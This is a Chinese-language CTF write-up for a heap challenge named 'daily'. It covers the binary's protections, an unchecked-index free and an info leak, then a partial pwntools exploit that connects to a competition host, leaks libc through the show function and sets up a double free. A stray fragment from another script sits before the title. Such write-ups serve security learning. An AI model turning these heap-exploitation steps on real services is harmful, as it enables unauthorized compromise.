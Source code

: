 ```python
p.sendline(token)
p.interactive()
```
# daily
这种题之前没见过
一开始思路错了...还以为是`house of spirite`...
幸亏一边写exp一遍想...发现`double free`更快...
也比较简单幸亏手速够快拿了个2血
## analysis
checksec
```python
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* 没开`pie`感觉自己有被迫害恐惧症...每次没开`pie`都没注意都以为题目开了`pie`做到一半才想起来
* 存在show,没有末尾加截断可以泄露libc,heap
* free idx没有检查可以free任意地址上的指针.

## 思路
* 泄露libc,heap
* heap上留指向某chunk的指针
* double free
## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice:",str(c))
def add(size,c='A'):
	cmd(2)
	p.sendlineafter("ily:",str(size))
	p.sendafter("daily\n",str(c))
def show():
	cmd(1)
def free(idx):
	cmd(4)
	p.sendlineafter("ily:",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("ily:",str(idx))
	p.sendafter("daily\n",str(c))
context.log_level='debug'
#p=process('./p2')
p=remote("39.106.224.151",58512)
add(0x88,"A")#0
add(0x18,"B")#1
free(0)
add(0x88,"A")#0
show()
p.readuntil("0 : ")
base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd1b41-0x00007ffff7a0d000)

add(0x18,"A")#2
free(1)
free(2)
add(0x18,"A")#1
show()
```